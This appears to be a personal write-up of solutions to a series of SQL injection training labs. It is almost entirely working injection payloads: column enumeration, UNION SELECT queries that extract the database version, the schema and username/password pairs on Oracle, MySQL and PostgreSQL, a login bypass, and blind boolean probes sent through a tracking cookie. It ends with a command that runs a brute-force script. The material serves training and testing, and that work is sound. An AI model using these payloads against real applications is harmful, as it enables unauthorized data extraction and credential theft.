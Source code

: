 # SQL Injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```
'  // <- Error
' OR 1=1--
```

## SQL injection vulnerability allowing login bypass

In login form:
```
administrator'--
```

## SQL injection attack, querying the database type and version on Oracle

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT 'a','b' FROM dual--

' UNION SELECT BANNER, NULL FROM v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

```
'  // <- Error
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#  // <- Error

' UNION SELECT @@version, NULL#
```

## SQL injection attack, listing the database contents on non-Oracle databases

```
'  // <- Error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' UNION SELECT NULL,NULL--
' UNION SELECT 'a','b'--

' UNION SELECT table_name, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--

' UNION SELECT CONCAT_WS('~',username_abcdef,password_abcdef),NULL FROM users_abcdef--
```

## SQL injection attack, listing the database contents on Oracle

```
'  // <- Error
'--

' AND 1=1--
' AND 1=2--  // <- No records

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL from dual--

' union select table_name,NULL from all_tables--  // USERS_JBQHPM
' union select column_name,NULL from all_tab_columns where table_name='USERS_JBQHPM'--
' union select USERNAME_KUTLFE,PASSWORD_XXNVYJ from USERS_JBQHPM--
```

## SQL injection UNION attack, determining the number of columns returned by the query

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
```

## SQL injection UNION attack, finding a column containing text

```
'  // <- Error
'--

' ORDER BY 3--
' ORDER BY 4--  // <- Error

' union select NULL,NULL,NULL--
' union select 'a',NULL,NULL-- // <- Error
' union select NULL,'a',NULL--
```

## SQL injection UNION attack, retrieving data from other tables

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select username,password from users--
```

## SQL injection UNION attack, retrieving multiple values in a single column

```
'  // <- Error
'--

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--  // <- Error

' union select NULL,NULL--
' union select 'a',NULL--  // <- Error
' union select NULL,'a'--

' union select NULL,@@version--  // <- Error
' union select NULL,version()--  // => PostgreSQL

' union select NULL,username||'~'||password from users--
```

## Blind SQL injection with conditional responses

```
'
'-- -
'#
' AND 'a'='a
' AND 'a'='b
```

No Vuln here.

In TrackingId cookie:
```
'  // No "Welcome back!" on the page
'--  // "Welcome back!" is back

' AND 1=2--  // No "Welcome back!" on the page
' AND 1=1--  // "Welcome back!" is back

' AND 'a'=SUBSTRING('administrator',1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING('administrator',1,1)--  // No "Welcome back!" on the page

' AND 'a'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // "Welcome back!" is present
' AND 'b'=SUBSTRING((SELECT username from users where username='administrator'),1,1)--  // No "Welcome back!" on the page
```

Run script:
```
python3.9 blind-conditional-script-1.py
```

